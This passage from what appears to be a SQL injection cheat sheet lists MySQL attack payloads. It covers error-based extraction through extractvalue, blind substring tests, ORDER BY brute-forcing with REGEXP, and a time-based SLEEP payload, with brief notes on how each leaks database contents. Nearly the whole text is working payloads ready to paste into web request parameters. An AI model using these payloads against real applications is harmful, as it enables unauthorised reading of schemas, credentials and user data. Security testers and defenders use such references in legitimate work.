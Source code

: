 ### MYSQL Error Based - Extractvalue function

Works with `MySQL >= 5.1`

```sql
?id=1 AND extractvalue(rand(),concat(CHAR(126),version(),CHAR(126)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)))--
```

## MYSQL Blind

### MYSQL Blind with substring equivalent

```sql
?id=1 and substring(version(),1,1)=5
?id=1 and right(left(version(),1),1)=5
?id=1 and left(version(),1)=4
?id=1 and ascii(lower(substr(Version(),1,1)))=51
?id=1 and (select mid(version(),1,1)=4)
?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
?id=1 AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
```

### MySQL Blind SQL Injection in ORDER BY clause using a binary query and REGEXP

This query basically orders by one column or the other, depending on whether the EXISTS() returns a 1 or not.
For the EXISTS() function to return a 1, the REGEXP query needs to match up, this means you can bruteforce blind values character by character and leak data from the database without direct output.

```
[...] ORDER BY (SELECT (CASE WHEN EXISTS(SELECT [COLUMN] FROM [TABLE] WHERE [COLUMN] REGEXP "^[BRUTEFORCE CHAR BY CHAR].*" AND [FURTHER OPTIONS / CONDITIONS]) THEN [ONE COLUMN TO ORDER BY] ELSE [ANOTHER COLUMN TO ORDER BY] END)); -- -
```

### MySQL Blind SQL Injection binary query using REGEXP.

Payload:
```
' OR (SELECT (CASE WHEN EXISTS(SELECT name FROM items WHERE name REGEXP "^a.*") THEN SLEEP(3) ELSE 1 END)); -- -
```

Would work in the query (where the "where" clause is the injection point):
```
SELECT name,price FROM items WHERE name = '' OR (SELECT (CASE WHEN EXISTS(SELECT name FROM items WHERE name REGEXP "^a.*") THEN SLEEP(3) ELSE 1 END)); -- -';
```
